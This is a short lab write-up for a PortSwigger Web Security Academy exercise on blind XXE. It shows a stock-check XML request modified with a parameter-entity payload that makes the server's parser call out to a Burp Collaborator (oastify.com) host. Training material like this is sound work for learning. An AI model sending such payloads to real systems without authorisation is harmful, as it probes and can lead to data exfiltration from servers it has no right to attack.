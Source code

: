 
# Blind XXE with out-of-band interaction via XML parameter entities

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

---------------------------------------------

Reference: https://portswigger.net/web-security/xxe/blind

---------------------------------------------

Generated link: https://0a8300cf04a26be4802b0864005700e8.web-security-academy.net/

Original request:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

We want to add something like this example from the reference:

``` 
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://COLLABORATOR_URL"> %xxe; ]>
```

We will test the following payload:

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://q6x580qbz3i8x9wutkq9i4bg97fy3ord.oastify.com"> %xxe; ]>		
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```



![img](images/Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities/1.png)


We get requests in Burp Collaborator:



![img](images/Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities/2.png)